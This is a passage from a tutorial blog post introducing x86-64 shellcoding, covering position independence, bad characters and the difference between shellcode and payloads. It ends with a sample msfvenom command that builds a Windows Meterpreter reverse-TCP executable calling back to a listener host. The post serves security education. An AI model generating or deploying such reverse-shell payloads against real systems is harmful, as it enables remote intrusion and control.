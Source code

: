 ```yaml
---
title: "14. Introduction to Shellcoding"
categories: [Programming, x86-64 Assembly]
tags: [Assembly, x86, x86-64]
mermaid: true
---
```



Shellcoding is the art of writing compact, position-independent machine code that can be injected and executed inside another process. At its core, shellcode is pure machine code — hexadecimal bytes that the CPU executes directly. It's not a high-level language; there's no compiler to hold your hand. The name is a bit of a misnomer; it historically referred to code that spawned a shell (like `/bin/sh`), but now it's a general term for the payload in an exploit, which could do anything: reverse a shell, add a user, or just call a specific API.

This section explains _what_ shellcode is, _why_ it matters, *how* to write effective shellcode.

The key challenges are:

1. **It must be self-contained.** No linking to external libraries.
2. **It must be position-independent.** It doesn't know where in memory it will live.
3. **It must avoid certain bytes (bad characters).** No null bytes (`0x00`) which would terminate a string copy, and often no newlines (`0x0a`) or carriage returns (`0x0d`).

**Does size matter?**

Yes — and not just historically. Payloads used to have very tight size limits, and even today smaller payloads are easier to hide and more portable. Rather than calling library functions, shellcode typically invokes syscalls (the kernel interface) directly.


Before starting this I highly encourage you to complete the previous posts related to **x86-64** assembly.


### Shellcode vs. Payload: What's the Real Difference?

If you're diving into the world of exploitation, you've likely heard the terms "shellcode" and "payload" used, sometimes even interchangeably. While they are closely related, they are **not the same thing**.

#### The Analogy: A Military Operation

Think of a cyber attack like a special forces operation:

- **The Payload** is the **entire mission package**. It's the overall objective: "Infiltrate the enemy base, plant a listening device in the commander's office, and exfiltrate undetected." The payload defines the _what_ and the _why_.
- **The Shellcode** is the **highly trained commando team** itself. They are the self-contained, executable component that carries out the core, technical task. They are the _how_.

**Example: A Metasploit Payload**  

When you use `msfvenom` in Metasploit, you are generating a complete _payload_. For example:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > malicious.exe
```
